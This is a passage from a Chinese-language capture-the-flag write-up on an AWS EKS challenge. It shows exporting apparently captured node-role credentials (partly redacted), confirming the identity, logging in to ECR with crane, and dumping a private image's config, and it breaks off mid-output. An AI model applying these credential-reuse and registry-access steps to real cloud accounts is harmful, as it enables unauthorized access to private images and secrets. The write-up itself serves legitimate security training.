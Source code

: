 看看我是谁

```bash
# 一顿 export 猛如虎
export AWS_ACCESS_KEY_ID=ASIA[AKID]5J
export AWS_SECRET_ACCESS_KEY=YPa[AKSK]+I3nF
export AWS_SESSION_TOKEN=Fw[ST]rD6dG
aws sts get-caller-identity
{
    "UserId": "AROA2AVYNEVMQ3Z5GHZHS:i-0cb922c6673973282",
    "Account": "688655246681",
    "Arn": "arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0cb922c6673973282"
}
```

题目描述希望我们找到 image 并且再次进行审计, 顺带提及 这里为了方便 安装好了 crane ，这次是 2 的升级版。

https://docs.aws.amazon.com/cli/latest/reference/ecr/get-login-password.html

aws 获取 docker 登陆 token 的文档在这里。 参考 example 直接填写，并且将 docker 替换为 crane

> Crane 参考本小节下方 other information 的 crane 部分

```bash
aws ecr get-login-password|crane auth login 688655246681.dkr.ecr.us-west-1.amazonaws.com -u AWS --password-stdin

# 成功后只有这一行
2023/MM/DD HH:mm:ss logged in via /home/user/.docker/config.json
```

登陆成功后 直接对远程镜像进行解析。

```bash
crane config 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01

{
  "architecture": "amd64",
  "config": {
    "Env": [
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
    ],
    "Cmd": [
      "/bin/sleep",
      "3133337"
    ],
    "ArgsEscaped": true,
    "OnBuild": null
  },
  "created": "2023-11-01T13:32:07.782534085Z",
  "history": [
    {
      "created": "2023-07-18T23:19:33.538571854Z",
      "created_by": "/bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in / "
    },
    {
      "created": "2023-07-18T23:19:33.655005962Z",
      "created_by": "/bin/sh -c #(nop) CMD [\"sh\"]",
      "empty_layer": true
    },
    {
      "created": "2023-11-01T13:32:07.782534085Z",
```